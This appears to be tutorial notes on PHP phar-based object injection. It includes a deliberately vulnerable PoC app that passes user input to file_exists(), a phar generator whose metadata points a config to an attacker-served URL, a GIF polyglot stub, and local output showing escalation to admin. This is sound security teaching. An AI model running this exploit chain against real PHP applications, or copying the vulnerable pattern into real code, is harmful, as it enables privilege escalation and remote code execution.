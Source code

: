 #### 3.1. Intro

- PHP deserialization w/o `unsererialize()` using `phar` file archive
- involves file upload (malicious `phar`)
- contains serialized PHP object in compressed format
- payload may be delivered by any file format (embedded `phar://`)
- quick fix: disable `phar://` via `stream_wrapper_unregister('phar')`
- exploitation via `file_exists` + `phar://` + POP gadget (`__wakeup()` or `__destruct()` required)
- `file_put_contents()` in magic method + user input as parameters => RCE via PHP backdoor


#### 3.2. PHP nuggets
```
# php -S 127.0.0.1:8081 # run build-in PHP web server
# php -l file.php       # check for syntax errors
# php -a                # interactive PHP shell
```

#### 3.3. Create config file
```php
file_put_contents(
    'config.json',
    json_encode(
        [
            'settings' => [
                'user' => 'test',
                'is_admin' => false
            ]
        ]
    )
);
```
Produces: `{"settings":{"user":"test","is_admin":false}}`


#### 3.4. Main class for PoC app

This app loads the JSON config file into an object and logs users with administrative rights.

File `load_settings.php`:
```php
<?php
class UserSettings
{
    private $conf_file;
    private $settings;

    function __construct($conf_file) {
        $this->conf_file = $conf_file;
        $this->load_conf();
    }

    function __wakeup() {
       $this->load_conf();
    }

    function __destruct() {
       $s = $this->settings['settings'];
       if ($s['is_admin']) {
           echo "Admin user: ".$s['user'] . " was logged.";
       }
       // debug
       print_r($this);
    }

    private function load_conf() {
        $this->settings = json_decode(
            file_get_contents($this->conf_file),
            true
        );
    }
}

$f = $_GET['f'];
if (file_exists($f)) {
    $s = new UserSettings($f);
}
```

The default loaded config indicates privileges are not elevated:

```
# http 127.0.0.1:8081/load_settings.php?f=config.json -b
UserSettings Object
(
    [conf_file:UserSettings:private] => config.json
    [settings:UserSettings:private] => Array
        (
            [settings] => Array
                (
                    [user] => test
                    [is_admin] =>
                )
        )
)
```

#### 3.5. Writing a PHAR file for PHP object injection

Deserializaiton on PHAR files happens automagically via:

- `file_exists()`
- `getimagesize()`
- `is_file()`
- `is_dir()`
- `is_readable()`
- `is_writable()`


`php.ini` config must be modified to allow us create PHAR files:
```
# for i in `locate cli/php.ini | grep etc`; do sed -i 's/;phar.readonly = On/phar.readonly = Off/g' $i; done
# locate cli/php.ini | grep etc | xargs grep 'phar.' | grep -vE '^;'
phar.readonly = Off
``` 

The following will builds a `UserSettings` object where the config 
file points to an external resource controlled by the attacker.

PHAR generator `phar_generator.php`:
```php
<?php
class UserSettings {
    function __construct() {
        $this->conf_file = 'http://127.0.0.1:9999/config_666.json';
    }
}
$u = new UserSettings();

$phar = new Phar('data.phar');
$phar->startBuffering();
$phar->addFromString('data.txt', 'data');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($u);
$phar->stopBuffering();

# php phar_generator.php
```

For image format:
```
$phar->setStub('GIF8;<?php __HALT_COMPILER(); ?>');
```

The produced `phar` file is:
```
# hexdump -C data.phar
00000000  3c 3f 70 68 70 20 5f 5f  48 41 4c 54 5f 43 4f 4d  |<?php __HALT_COM|
00000010  50 49 4c 45 52 28 29 3b  20 3f 3e 0d 0a 8b 00 00  |PILER(); ?>.....|
00000020  00 01 00 00 00 11 00 00  00 01 00 00 00 00 00 55  |...............U|
00000030  00 00 00 4f 3a 31 32 3a  22 55 73 65 72 53 65 74  |...O:12:"UserSet|
00000040  74 69 6e 67 73 22 3a 31  3a 7b 73 3a 39 3a 22 63  |tings":1:{s:9:"c|
00000050  6f 6e 66 5f 66 69 6c 65  22 3b 73 3a 33 37 3a 22  |onf_file";s:37:"|
00000060  68 74 74 70 3a 2f 2f 31  32 37 2e 30 2e 30 2e 31  |http://127.0.0.1|
00000070  3a 39 39 39 39 2f 63 6f  6e 66 69 67 5f 36 36 36  |:9999/config_666|
00000080  2e 6a 73 6f 6e 22 3b 7d  08 00 00 00 64 61 74 61  |.json";}....data|
00000090  2e 74 78 74 04 00 00 00  a3 5e 83 5e 04 00 00 00  |.txt.....^.^....|
000000a0  63 f3 f3 ad a4 01 00 00  00 00 00 00 64 61 74 61  |c...........data|
000000b0  70 33 31 60 e5 b2 7c af  ef 4a ae 83 7d 49 a3 5b  |p31`..|..J..}I.[|
000000c0  f0 9d ce f1 02 00 00 00  47 42 4d 42              |........GBMB|
000000cc
```

#### 3.6. Exploitation

Generate attacker controlled config `config_666.json`:
```php
file_put_contents(
    'config_666.json',
    json_encode(
        [
            'settings' => [
                'user' => 'root',
                'is_admin' => true
            ]
        ]
    )
);
```

Serve the `http://127.0.0.1:9999/config_666.json` as follows:
```
# python -m http.server 9999
```

Exploitation will load the malicious PHP object which points to the remote config 
file to elevate privileges in the application:
```
# http 127.0.0.1:8081/load_settings.php?f=phar://data.phar -b
UserSettings Object
(
    [conf_file:UserSettings:private] => phar://data.phar
    [settings:UserSettings:private] =>
)
Admin user: root was logged.UserSettings Object
(
    [conf_file:UserSettings:private] => http://127.0.0.1:9999/config_666.json
    [settings:UserSettings:private] => Array
        (
            [settings] => Array
                (
                    [user] => root
                    [is_admin] => 1
                )

        )

)
```
